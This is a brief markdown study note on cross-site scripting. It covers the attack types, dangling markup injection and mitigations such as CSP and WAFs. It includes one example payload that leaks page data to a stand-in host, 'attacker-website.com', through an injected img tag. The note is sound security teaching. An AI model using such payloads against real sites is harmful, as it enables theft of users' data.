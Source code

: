 # Cross-Site Scripting (XSS)

###Impact

Allows attacker to:
- circumvent same origin policy
- masquerade as victim
- access victim's data

## XSS Type

### Reflected XSS
When an application receives data in an HTTP request and includes the data in the immediate response in an unsafe way.

### Stored XSS
When an application receives data and includes the data in an unsafe manner in later responses.

### DOM XSS
When an application contains client-side JavaScript that processes data in an unsafe way.

## Extension of XSS attack

### Dangling Markup Injection
Technique for captureing data cross-domain in situations where a full XSS attack is not possible.
Inject payload like below to tags that contain value that is unfiltered.
```
"><img src='//attacker-website.com?
```

## Mitigation Type

### Content Security Policy
CSP is a set of directives that control which resources a web page can load, such as JavaScript, CSS, and images. When a website specifies a CSP, the browser blocks requests for assets that don't come from the specified sources.

### Browser Sandbox
Present the content of the webpage on another domain so if an XSS vulnerability exist the JavaScript will not execute on the important domain.

### Web Application Firewall
Using WAF to directly filter out potentially malicious input.
